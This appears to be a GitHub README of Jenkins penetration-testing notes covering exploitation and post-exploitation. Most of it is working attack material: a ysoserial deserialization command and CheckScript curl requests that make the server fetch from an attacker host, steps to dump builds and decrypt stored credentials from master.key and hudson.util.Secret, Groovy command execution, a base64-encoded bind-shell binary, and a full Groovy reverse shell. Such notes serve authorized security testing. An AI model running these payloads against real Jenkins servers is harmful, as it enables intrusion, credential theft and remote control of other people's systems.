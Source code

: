 Jenkins Pentesting Notes
========================

Notes about Jenkins exploitation and post-exploitation.


Remote Code Execution
=====================
Deserialization RCE in old Jenkins (CVE-2015-8103, Jenkins 1.638 and older)
---------------------------------------------------------------------------
Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload.
Then RCE using [this script](./rce/pwn_jenkins.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```


Metaprogramming RCE in Jenkins Plugins (CVE-2019-100300{0,1,2})
---------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-01-08)

Original pre-auth RCE vulnerability [here](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html).

Alternative RCE with Overall/Read and Job/Configure permissions [here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc).


CheckScript RCE in Jenkins (CVE-2019-10030{29,30})
--------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-03-06/), [Credits](https://twitter.com/webpentest).

Check if a Jenkins instance is vulnerable (needs Overall/Read permissions) with some Groovy:
```bash
curl -k -4 -X POST "https://whatever.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){sleep(5000)}}'
```

Execute arbitraty bash commands:
```bash
curl -k -4 -X POST "https://whatever.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"wget xx.xx.xx.xx/bla.txt"}}'
```

Alternative RCE/DACL bypass payload [here](https://gist.github.com/akhil-reni/e2116cc243af096ca3416168f49b3298) though be advised that this one will absolutely trash the whole security configuration!


Dumping builds to find cleartext secrets
========================================
Use [this script](./dump_builds/jenkins_dump_builds.py) to dump build console outputs and build environment variables to hopefully find cleartext secrets.

```
usage: jenkins_dump_builds.py [-h] [-u USER] [-p PASSWORD] [-o OUTPUT_DIR]
                              [-d] [-l] [-r]
                              url [url ...]

Dump all available info from Jenkins

positional arguments:
  url

optional arguments:
  -h, --help            show this help message and exit
  -u USER, --user USER
  -p PASSWORD, --password PASSWORD
  -o OUTPUT_DIR, --output-dir OUTPUT_DIR
  -d, --downgrade_ssl   Downgrade SSL to use RSA
  -l, --last            Dump only the last build of each job
  -r, --recover_from_failure
                        Recover from server failure, skip all existing
                        directories
```

Files to copy after compromission
=================================

These files are needed to decrypt Jenkins secrets:

* secrets/master.key
* secrets/hudson.util.Secret

Such secrets can usually be found in:

* credentials.xml
* jobs/.../build.xml

Here's a regexp to find them:
```bash
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
```


Decrypt Jenkins secrets offline
===============================

Use [this script](./offline_decryption/jenkins_offline_decrypt.py) to decrypt previsously dumped secrets.

```
Usage:
	jenkins_offline_decrypt.py <jenkins_base_path>
or:
	jenkins_offline_decrypt.py <master.key> <hudson.util.Secret> [credentials.xml]
or:
    jenkins_offline_decrypt.py -i <path> (interactive mode)
```


Groovy Scripts
==============
Decrypt Jenkins secrets from Groovy
-----------------------------------

```java
println(hudson.util.Secret.decrypt("{...}"))
```


Command execution from Groovy
-----------------------------

```java
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

For multiline shell commands, use the following shell syntax trick (example includes bind shell):

```java
def proc="sh -c \$@|sh . echo /bin/echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAzgAAAAAAAAAkAQAAAAAAAAAQAAAAAAAAailYmWoCX2oBXg8FSJdSxwQkAgD96UiJ5moQWmoxWA8FajJYDwVIMfZqK1gPBUiXagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU= | base64 -d > /tmp/65001".execute();
```

Reverse shell from Groovy
-------------------------

```java
String host="myip";
int port=1234;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());
so.flush();
po.flush();
Thread.sleep(50);
try {p.exitValue();break;}catch (Exception e){}};
p.destroy();
s.close();
```

I'll leave this reverse shell tip here in case anyone needs it:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
^Z bg
stty -a
echo $TERM
stty raw -echo
fg
export TERM=...
stty rows xx columns yy
```
